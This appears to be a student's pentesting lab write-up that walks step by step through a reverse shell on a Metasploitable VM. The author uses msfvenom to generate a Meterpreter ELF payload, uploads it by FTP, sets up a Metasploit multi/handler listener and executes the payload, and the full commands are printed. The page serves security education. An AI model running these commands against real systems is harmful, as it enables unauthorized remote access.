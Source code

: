 ```yaml
---
title: 😈 Establishing a Reverse Shell Using Metasploit and Msfvenom
permalink: /metasploit2
parent: Pentesting
---
```

# Establishing a Reverse Shell Using Metasploit and Msfvenom
{: .no_toc }

{: .note }
Pentesting, Ethical Hacking, Kali Linux, Metasploit, Metasploitable, Virtual Machines, Networking
{: .fs-3 }

#### Contents
{: .no_toc }
- TOC
{:toc}

## Scenario
In this Lab, I’ll be using Msfvenom and Metasploit to establish a reverse shell on a target machine. Msfvenom is a command line instance of Metasploit that is used to generate payloads, which is a piece of software that is designed to perform malicious actions on a target system. This payload must be delivered to and executed from the target machine. To do this, an attacker will use social engineering techniques or exploit a known vulnerability on the target machine. 

In this case, I’ll be creating a payload designed to establish a reverse shell. A reverse shell differs from a normal shell in that the target system initiates the connection back to the attacker’s machine. This connection is established when the payload is executed by the user of the target machine. From the attacker’s perspective, a benefit of establishing a reverse shell is that it may help bypass firewalls that block incoming traffic since the connection is coming from the target machine rather than the attacker’s machine. 

## Goals & Objectives
1. Create a reverse shell payload using Metasploit and Msfvenom
3. Transfer the payload to the target machine.
4. Create a listener to "listen" for an incoming connection from the target machine.
6. Execute the payload on the target machine.

## Results
### 📄 Task 1: Run Metasploit and Msfvenom

![](/assets/images/101_77_metasploit2/step0.png)

### 📄 Task 2: Create the reverse shell payload

In Metasploit, I use the following command to create the reverse shell payload:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.103 LPORT=5555 -f elf -o reverse-sh.elf
```

![](/assets/images/101_77_metasploit2/step1.png)

```-p linux/x86/meterpreter/reverse_tcp``` specifies the reverse shell payload
```LHOST``` specifies the IP address of the machine I want the target machine to establish a connection with, which is the attacker’s machine  
```LPORT``` specifies the port the target machine will connect through  
```-f``` specifies the file type. ELF, or Executable and Linkable Format, is a common file format for executable files  
```-o``` saves the payload with the chosen file name: reverse-sh.

<br>
<br>
### 📄 Task 3: Transfer the payload to the target machine

There are many ways an attacker can transfer a payload to a target machine, such as using social engineering techniques like phishing, USB baiting, or watering hole attacks. For the sake of simplicity, I am provided with the username and password of the target machine.

With those credentials, I can use FTP (file transfer protocol), which is a standard network protocol used to transfer files between devices on a network. I use the following commands:

```bash
ftp 192.168.28.128 
put reverse-sh.elf
by
```

![](/assets/images/101_77_metasploit2/step2a.png)

```ftp 192.168.28.128``` establishes the FTP session. 192.168.28.128 is the IP address of the target machine.
```put reverse-sh.elf``` sends the file to the target machine  
```by``` ends the session

<br>
<br>
### 📄 Task 4: Gain access to the target machine and make the payload executable

I access the target machine by establishing an SSH connection. The Metasploitable VM target machine has a default username and password of "msfadmin" which I use to log in to the machine.

![](/assets/images/101_77_metasploit2/step3.png)

Now that I have access to the target machine, I will give all users on the machine permissions to execute the payload. I use the following command: ```chmod +x reverse-sh.elf```

![](/assets/images/101_77_metasploit2/step4.png)

```chmod``` is the change mode command, which allows me to change the permissions of a file. ```+x``` adds executable permissions to all users. 

To see how changing file permissions works in Linux, see my [Managing File Permissions in Linux](/permissions) project.

<br>
<br>
### 📄 Task 5: Create a listener on the attacker’s machine

In a reverse shell, the target machine is initiating the connection to the attacker’s machine. In order for the attacker’s machine to acknowledge the connection request from the target machine, a listener must be created on the attacker’s machine. 

The listener essentially acts as a receiver, ready to accept the connection initiated by the reverse shell payload.

In a new terminal on Kali Linux, I initiate Metasploit once more by typing ```msfconsole```. Next, to specify that I want to use a listener, I type ```use exploit/multi/handler```. This tells Metasploit that I want to use the multi/handler module. With this module, I must specify three parameters: the local host (the attacker’s machine), the local port (through which the connection will be established), and the payload type. The following commands establish these parameters:

```bash
set lhost 192.168.28.129  
set lport 5555  
set payload linux/x86/meterpreter/reverse_tcp  
run
```

![](/assets/images/101_77_metasploit2/step5.png)

The attacking machine is now listening for an incoming connection from the target machine.

<br>
<br>
### 📄 Task 6: Execute the payload on the target machine

Finally, with the reverse shell payload in position and the listener active on the attacking machine, I switch back to the first terminal where a connection to the target machine was established using SSH and I type the following:

```./reverse-sh.elf```

Once I hit enter, the reverse shell payload executes. The Metasploit terminal outputs that “Meterpreter session 1 opened.” This indicates that the target machine initated the connection request and the attacking machine accepted the connection.

To find out how a Meterpreter shell works, please refer to my [Upgrading to Meterpreter Shell Using Metasploit](/metasploit1) project. 

Next, I type shell to access the shell.

![](/assets/images/101_77_metasploit2/step6.png)

<br>
<br>
---

<a href="#top" id="back-to-top">Back to top</a>